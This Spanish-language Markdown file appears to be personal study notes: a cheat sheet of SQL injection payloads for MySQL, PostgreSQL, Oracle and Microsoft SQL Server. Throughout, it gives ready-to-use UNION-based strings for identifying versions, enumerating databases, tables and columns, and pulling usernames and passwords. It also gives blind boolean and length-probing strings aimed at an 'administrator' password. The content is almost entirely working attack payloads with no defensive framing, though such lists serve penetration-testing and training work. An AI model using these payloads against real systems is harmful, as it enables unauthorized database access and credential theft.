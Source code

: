 
---
# Cheatsheet de SQLi en Bases de Datos Comunes

En este documento recogemos las principales consultas de enumeración y extracción de información mediante **inyecciones SQL (SQLi)** en las bases de datos más habituales: [MySQL](MySQL.md), [PostgreSQL](.md), [Oracle](Documento%20Hacker/OWASP%20TOP%2010/Bases%20de%20datos%20db/Oracle.md) y [MSSQL](MSSQL.md) (Microsoft SQL Server ).  

---

# MySQL

## Obtener versión
```sql
' UNION SELECT NULL, @@version-- 
```

## Listar bases de datos
```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata-- 
```

## Listar tablas
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'nombre_base_datos'-- 
```

## Listar columnas
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'nombre_tabla' AND table_schema = 'nombre_base_datos' -- 
```

## Extraer datos
```sql
' UNION SELECT username, password FROM users-- 
```


```SQL
' UNION SELECT username,password FROM public.users-- -
```

`public.users` = `database.tabla`
## Paginación
```sql
' UNION SELECT 1, schema_name FROM information_schema.schemata limit 0,1-- -`
```

## Longitud
```SQL
' and (select substring(username,1,1) from users where username='administrator' and length(password)=20) = 'a'-- -
```


## Condición booleana 
```SQL
' and (select substring(password,1,1) from users where username='administrator') = '0'-- -
```
---

# PostgreSQL

## Obtener versión
```sql
' UNION SELECT NULL, version() -- 
```

## Listar bases de datos
```sql
' UNION SELECT datname, NULL FROM pg_database -- 
```

## Listar schemas en la base de datos actual
```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata -- 
```

## Listar tablas de un esquema
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'public' -- 
```

## Listar columnas
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'nombre_tabla' -- 
```

## Extraer datos
```sql
' UNION SELECT username, password FROM users -- 
```

## Paginación
```sql
' UNION SELECT NULL, col FROM tabla LIMIT 10 OFFSET 0 -- 
```

## Longitud
```SQL
' and (select substr(password,1,1) from users where username='administrator' and length(password)=20) = 'a'-- -
```


## Condición booleana
```SQL
' and (select substr(password,1,1) from users where username='administrator') = '0'-- -

```

---

# Oracle

## Obtener versión
```sql
' UNION SELECT NULL, banner FROM v$version WHERE ROWNUM = 1 -- 
```

## Listar schemas (usuarios)
```sql
' UNION SELECT NULL, username FROM all_users -- 
```

## Listar tablas
```sql
' UNION SELECT NULL, table_name FROM all_tables WHERE owner = 'ESQUEMA' -- 
```

## Listar columnas
```sql
' UNION SELECT NULL, column_name FROM all_tab_columns WHERE table_name = 'NOMBRE_TABLA_EN_MAYUSC' -- 
```

## Extraer datos
```sql
' UNION SELECT NULL, USER FROM DUAL -- 
```

## Paginación (con ROWNUM)
```sql
' UNION SELECT NULL, col FROM (SELECT col, ROWNUM rn FROM tabla WHERE ROWNUM <= 20) WHERE rn > 10 -- 
```


## Longitud
```SQL
' and (select substr(password,1,1) from users where username='administrator' and length(password)=20) = 'a'-- -
```


## Condición booleana
```SQL
' and (select substr(password,1,1) from users where username='administrator') = '0'-- -
```
---

# Microsoft SQL Server (MSSQL)

## Obtener versión
```sql
' UNION SELECT NULL, @@version -- 
```

## Listar bases de datos
```sql
' UNION SELECT name, NULL FROM sys.databases -- 
```

## Listar tablas
```sql
' UNION SELECT NULL, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'dbo' -- 
```

## Listar columnas
```sql
' UNION SELECT NULL, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'PRODUCT' AND TABLE_SCHEMA = 'dbo' -- 
```

## Extraer datos
```sql
' UNION SELECT username, password FROM nombre_tabla -- 
```

## Paginación
```sql
' UNION SELECT TOP 10 NULL, col FROM tabla -- 
' UNION SELECT NULL, col FROM tabla ORDER BY id OFFSET 10 ROWS FETCH NEXT 10 ROWS ONLY -- 
```


## Longitud
```SQL
' and (select substring(password,1,1) from users where username='administrator' and len(password)=20) = 'a'-- -
```


## Condición booleana
```SQL
' and (select substring(password,1,1) from users where username='administrator') = '0'-- -
```
---

## Versiones

- **MySQL** → usa `LIMIT` para paginación.  
- **PostgreSQL** → muy similar a MySQL (`LIMIT ... OFFSET`).  
- **Oracle** → usa `ROWNUM` o subconsultas para limitar resultados.  
- **MSSQL** → versiones antiguas usan `TOP`; versiones modernas permiten `OFFSET ... FETCH`.  

---

